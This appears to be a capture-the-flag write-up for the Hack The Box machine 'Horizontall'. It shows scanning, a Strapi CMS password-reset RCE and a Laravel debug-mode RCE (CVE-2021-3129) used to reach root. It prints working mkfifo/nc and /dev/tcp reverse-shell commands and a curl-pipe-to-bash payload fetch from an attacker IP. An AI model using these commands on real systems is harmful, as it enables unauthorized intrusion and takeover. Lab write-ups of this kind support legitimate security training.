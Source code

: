 ```bash
ghost@localhost [11:34:02] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % export IP=10.10.11.105

ghost@localhost [11:37:16] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % export DOMAIN=http://horizontall.htb
```

# Scan

```bash
ghost@localhost [11:35:00] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % rustscan -a $IP -- -sC -sV
Open 10.10.11.105:22
Open 10.10.11.105:80

ghost@localhost [11:36:11] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % nmap -sC -sV -vvv -p 22,80 $IP

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port 80, horizontall.htb

Website got nothing, but looking through source code found obscured JS code that contains a domain `api-prod.horizontall.htb`.

## api-prod.horizontall.htb

Running go-buster on it gives few paths.

```bash
ghost@localhost [15:04:47] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % gobuster dir -u http://api-prod.$DOMAIN -k -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

There's an exploit I found from searchsploit for unauthorized RCE (https://www.exploit-db.com/exploits/50239).

In the add, it calls `admin/init` to check the Strapi version. By checking the version, I found out that it is running `3.0.0-beta.17.4`.
http://api-prod.horizontall.htb/admin/init

With that, running the exploit will return new credentials and console for blind RCE. The following netcat command gives reverse shell back.

```bash
ghost@localhost [16:51:21] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjYzOTIzMTAzLCJleHAiOjE2NjY1MTUxMDN9.k3si1Sv7DHZiO0Y0POSd9ylquNSHylADp4qsj-BNbdQ

$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.8 4444 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

```bash
ghost@localhost [17:01:41] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.105] 51012
/bin/sh: 0: can't access tty; job control turned off
strapi@horizontall:~/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

# user.txt

```bash
strapi@horizontall:~$ ls /home/
developer

strapi@horizontall:~$ ls /home/developer
composer-setup.php
myproject
user.txt

strapi@horizontall:~$ cat /home/developer/user.txt
dcf7a***
```

## adding SSH key

I generated SSH key and add it to the target machine so I can access the machine easily.

# Privilege escalation

There's something running at port 8000.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1882/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

## hidden process

When I call `ps -ef` I do not see service running at port 8000 because `hidepid` is set to 2. Setting that to 2 will hide other processes in the machine.

```bash
strapi@horizontall:~/myapi$ mount | grep hidepid
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
```

## port forwarding

```bash
ghost@localhost [10:55:37] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % ssh -i horizontall -L 8001:127.0.0.1:8000 strapi@10.10.11.105
```

## gobuster

```bash
ghost@localhost [10:59:01] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % gobuster dir -u http://localhost:8001 -k -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
Progress: 46 / 43008 (0.11%)
/profiles             (Status: 500) [Size: 616206]
```

## exploit

Going to the profile will gives Laravel error in debug mode. From googling, I learnt that there's an exploit for Laravel debug mode https://github.com/nth347/CVE-2021-3129_exploit).

A better explanation can also be found here (https://www.ambionics.io/blog/laravel-debug-rce).

```bash
ghost@localhost [11:12:46] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2962, done.
remote: Counting objects: 100% (508/508), done.
remote: Compressing objects: 100% (210/210), done.
remote: Total 2962 (delta 362), reused 308 (delta 283), pack-reused 2454
Receiving objects: 100% (2962/2962), 430.81 KiB | 743.00 KiB/s, done.
Resolving deltas: 100% (1234/1234), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

The exploit works, so this time will be running for reverse shell. The following script will not works because of the bad character.

```bash
ghost@localhost [11:15:08] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 "bash -C 'bash -i >& /dev/tcp/10.10.16.8/4445 0>&1'"
```

So first I create file called `root-shell` and serve with Python server.
```bash
bash -i >& /dev/tcp/10.10.16.8/4445 0>&1
```

Then run exploit as below.

```bash
ghost@localhost [11:36:45] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 "curl 10.10.16.8/root-shell | bash"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
```

# root.txt
```bash
ghost@localhost [11:14:10] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.105] 49272
bash: cannot set terminal process group (104397): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# id
uid=0(root) gid=0(root) groups=0(root)

root@horizontall:/home/developer/myproject/public# cat /root/root.txt
4d7e6***
```
